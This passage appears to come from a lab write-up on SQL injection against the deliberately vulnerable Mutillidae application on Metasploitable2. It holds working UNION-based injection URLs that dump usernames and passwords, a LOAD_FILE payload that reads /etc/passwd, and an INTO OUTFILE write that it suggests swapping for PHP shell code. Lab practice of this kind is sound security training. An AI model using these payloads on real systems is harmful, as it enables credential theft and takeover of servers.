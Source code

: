 
![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/9a1642ee-718f-4e6a-ac26-107b39d23b85)

Once we discovered all available column names, we can extract information from them by just adding those column names in our query sentence.

Ex: (union select 1,username,password,is_admin,5 from accounts).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,username,password,is_admin,5%20from%20accounts%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/13bb1c48-64c7-4633-bc26-7392f08b6fb3)

## Reading and writing files on the web-server

We can use the “LOAD_FILE()” operator to peruse the contents of any file contained within the web-server. We will typically check for the “/etc/password” file to see if we get lucky and scoop usernames and passwords to possible use in brute force attacks later.

Ex: (union select null,load_file(‘/etc/passwd’),null,null,null).

http://192.168.1.9/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%20null,load_file(%27/etc/passwd%27),null,null,null%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/mrnaviz/sqlinjection/assets/123350791/ad40825f-ce89-447d-b5cb-0f49fc8f49b2)

the “INTO_OUTFILE()” operator for all that they offer and attempt to root the objective server by transferring a shell-code through SQL infusion. we will write a “Hello World!” sentence and output it in the “/tmp/” directory as a “hello.txt” file. This “Hello World!” sentence can be substituted with any PHP shell-code that you want to execute in the target server. Ex: (union select null,’Hello World!’,null,null,null into outfile ‘/tmp/hello.txt’).

## RESULT:
The SQL Injection vulnerability is successfully exploited using the Multidae web application in Metasploitable2.
